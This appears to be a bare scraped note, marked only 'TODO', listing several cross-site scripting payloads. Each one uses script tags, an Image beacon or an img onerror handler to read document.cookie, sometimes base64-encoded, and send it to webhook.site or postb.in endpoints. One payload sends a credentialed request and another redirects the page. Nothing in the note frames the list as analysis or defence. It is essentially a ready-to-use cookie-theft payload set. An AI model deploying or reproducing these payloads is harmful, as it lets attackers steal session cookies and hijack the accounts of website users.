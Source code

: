 TODO

<script>var req = new XmlHttpRequest(); req.open("GET", "https://webhook.site/704078be-7bd6-4184-8eec-8446785482fc", true); req.withCredentials = true; req.send(null);</script>


<script>var i=new Image(); i.src="https://webhook.site/704078be-7bd6-4184-8eec-8446785482fc/?cookie="+btoa(document.cookie);</script>

<script>window.location.replace("https://webhook.site/704078be-7bd6-4184-8eec-8446785482fc");</script>

<img src=x onerror="javascript:document.location='https://postb.in/1679131873897-8807206857018?cookie='+document.cookie;">


<script>var i=new Image;i.src="https://webhook.site/704078be-7bd6-4184-8eec-8446785482fc/?"+document.cookie;</script>

<img src=x onerror="this.src='https://webhook.site/704078be-7bd6-4184-8eec-8446785482fc/?'+document.cookie; this.removeAttribute('onerror');">
